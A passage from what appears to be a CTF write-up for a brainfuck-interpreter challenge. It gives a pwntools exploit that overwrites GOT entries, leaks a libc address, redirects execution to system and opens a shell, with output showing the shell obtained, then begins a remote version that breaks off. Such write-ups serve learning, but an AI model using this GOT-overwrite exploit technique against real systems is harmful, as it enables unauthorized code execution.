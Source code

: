 ```python
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["putchar"] - e.got["memset"])
# rewrite the got address of `putchar` to `main`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# get to main
payload += INSTRUCTIONS.READ


p.sendline(payload)
fgets_addr = u32(p.recv(4))
print("Leaked fgets address:", hex(fgets_addr))
offset = fgets_addr - libc.symbols["fgets"]
print("Offset is: ", offset)

system_addr = libc.symbols['system'] + offset
gets_addr = libc.symbols['gets'] + offset

print("System:", hex(system_addr))
print("Gets:", hex(gets_addr))

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(e.symbols['main']))

p.sendline(b"/bin/sh")
p.interactive()
```
Let's run it:
```sh
python3 local_exploit.py
```
And:
```
Leaked fgets address: 0xf7dca390
Offset is:  0xf7d57000
System: 0xf7da3910
Gets: 0xf7dcb550
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ ls -la
total 4232
drwxr-xr-x  2 ido ido    4096 Oct 26 10:17 .
drwxr-xr-x 23 ido ido    4096 Oct 26 05:28 ..
-rwxr-xr-x  1 ido ido    7713 May 15  2019 bf
-rw-r--r--  1 ido ido 1790580 Apr 12  2022 bf_libc.so
-rw-------  1 ido ido 2801664 Oct 26 09:40 core
-rw-------  1 ido ido      19 Oct 26 05:30 .gdb_history
-rw-r--r--  1 ido ido    1772 Oct 26 10:24 local_exploit.py
-rw-r--r--  1 ido ido    1344 Oct 26 09:41 test.py
$
```
We have a shell!
## Remote exploit:
we just need to change the `libc` to be the one we got, and to connect to the remote server.
**NOTICE** i added a sleep before receiving from the server, because it is slow.
the full exploit:
```python
from pwn import *

context.log_level = 'error'

class INSTRUCTIONS:
    MOVE_RIGHT = b">"
    MOVE_LEFT = b"<"
```